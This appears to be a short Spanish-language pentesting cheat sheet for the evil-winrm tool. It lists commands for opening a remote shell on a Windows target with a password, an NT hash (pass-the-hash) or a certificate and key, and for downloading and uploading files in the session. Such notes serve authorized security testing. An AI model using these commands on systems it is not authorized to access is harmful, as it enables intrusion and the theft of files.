 ### Conexión usando usuario y contraseña:
$ evil-winrm -i {IP-TARGET} -u '{USER}' -p '{PASSWORD}'
### Conexión usando un NT Hash:
$ evil-winrm -i {IP-TARGET} -u '{USER}' -H '{NT-HASH}'
### Conexión por SSL y proporcionando llave pública y privada:
$ evil-winrm -i {IP-TARGET} -c {CERTIFICATE.pem} -k {PRIVATE-KEY.pem} -S

$ evil-winrm -i {IP-TARGET} -c {CERTIFICATE.pem} -k {PRIVATE-KEY.pem} -S -u '{USER}' -p '{PASSWORD}'
### Descargar un archivo dentro de sesión evil-winrm:
`Evil-WinRM> download C:\PATH\{FILE}`
### Cargar un archivo dentro de sesión evil-winrm:
`Evil-WinRM> upload {FILE}`